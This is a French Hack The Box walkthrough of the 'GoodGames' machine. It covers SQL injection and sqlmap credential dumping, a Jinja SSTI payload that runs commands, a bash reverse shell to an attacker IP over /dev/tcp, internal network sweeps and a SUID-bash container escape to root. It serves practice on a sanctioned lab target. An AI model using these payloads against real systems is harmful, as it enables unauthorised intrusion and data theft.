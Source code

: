 ```yaml
---
title: "GoodGame-HTB"
date: 2025-05-03T20:00:00+02:00
draft: false
tags: ["hackthebox", "writeup",]
categories: ["writeup"]
summary: "Difficulte : esay"
showToc: true
tocOpen: true
---
```


# Enumeration 
## Nmap 

Nous débutons notre phase de reconnaissance par un scan Nmap de la cible.

```bash
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
```

L’analyse révèle que seul le port **80** est ouvert et qu’il héberge un serveur HTTP Python via **Werkzeug 2.0.2**.

---

## Serveur Web Python

En accédant au site via le port 80, nous tombons sur une interface web : `http://goodgames.htb/`

> _Ajout de l’entrée DNS au fichier hosts :_

```bash
sudo echo "10.10.11.130   goodgames.htb" >> /etc/hosts
```

En inspectant la fonctionnalité de connexion, une tentative d'injection SQL est envisagée. Toutefois, l'application impose la saisie d’une adresse e-mail valide.

Nous utilisons alors une adresse valide, puis interceptons la requête dans **Burp Suite** pour modifier l’e-mail en `admin@goodgames.htb`. Une fois soumise, un message de bienvenue s’affiche, indiquant une possible compromission du compte administrateur.

![Connexion réussie](/images/20250417163258.png)

---

## Injection SQL

Après confirmation d'une vulnérabilité SQLi, nous enregistrons la requête HTTP dans un fichier nommé `goodgames.req` afin de l'exploiter avec **sqlmap**.

```bash
sqlmap -r goodgames.req --dbs
```

Sqlmap révèle deux bases de données :

- `information_schema`
    
- `main`
    

![Bases de données détectées](/images/20250417165918.png)

Nous listons ensuite les tables de la base `main` :

```bash
sqlmap -r goodgames.req -D main --tables
```

![Tables listées](/images/20250417170201.png)

Et enfin, nous extrayons les données de la table `user` :

```bash
sqlmap -r goodgames.req -D main -T user --dump
```

![Dump utilisateurs](/images/20250417171542.png)

Résultat :

```
admin@goodgames.htb : superadministrator
```

---

## Portail Interne d'Administration

En haut à droite du tableau de bord, une icône d’engrenage mène à une URL interne :  
`http://internal-administration.goodgames.htb/login`

> _Ajout de l’entrée dans le fichier hosts :_

```bash
sudo echo "10.10.11.130   internal-administration.goodgames.htb" >> /etc/hosts
```

Nous utilisons les identifiants extraits (`admin / superadministrator`) pour accéder à l’interface d'administration. Cela nous donne accès au dashboard.

![Dashboard admin](/images/20250421140123.png)

---

## SSTI (Server-Side Template Injection)

Nous suspectons une vulnérabilité **SSTI**. Une charge utile de test est injectée :

```jinja
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

![Test SSTI](/images/20250421141229.png)

La commande est exécutée, confirmant la vulnérabilité. Nous exploitons cela pour obtenir un reverse shell :

```jinja
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}
```

![Reverse shell SSTI](/images/20250421141957.png)

---

## Escalade de Privilèges

### Énumération

L’environnement montre plusieurs signes d’une exécution dans un **conteneur Docker**. On y observe également des fichiers liés à un utilisateur inconnu (`UID 1000`) inexistant dans `/etc/passwd`.

![Fichiers docker](/images/20250421142430.png)

Une adresse IP privée suggère une architecture en réseau Docker. Nous réalisons un scan ping :

```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done
```

Et un scan des ports :

```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

Le processus `docker` est actif sur le système.

![Processus docker](/images/20250421143838.png)

L'utilisateur `augustus`, présent sur le système, dispose d’un répertoire utilisateur contenant des fichiers identiques à ceux du conteneur.

---

## Évasion de Conteneur & Accès Root

Nous copions `/bin/bash` dans le répertoire d’**augustus** :

![Copie bash](/images/20250421145143.png)

Puis exécutons le binaire avec l’option `-p` pour préserver les privilèges root :

![Bash -p](/images/20250421145406.png)

```bash
./bash -p
```

Cela nous accorde un shell avec les droits root hors du conteneur.

